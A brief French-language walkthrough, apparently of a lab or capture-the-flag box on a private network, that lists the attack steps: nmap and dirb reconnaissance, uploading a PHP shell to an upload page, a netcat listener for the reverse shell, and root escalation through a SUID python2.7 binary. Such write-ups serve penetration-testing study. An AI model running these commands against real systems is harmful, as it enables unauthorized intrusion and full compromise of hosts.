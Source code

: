 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

Visite du site web, on trouve que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

## Reverse shell

Upload de shell.php dans /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
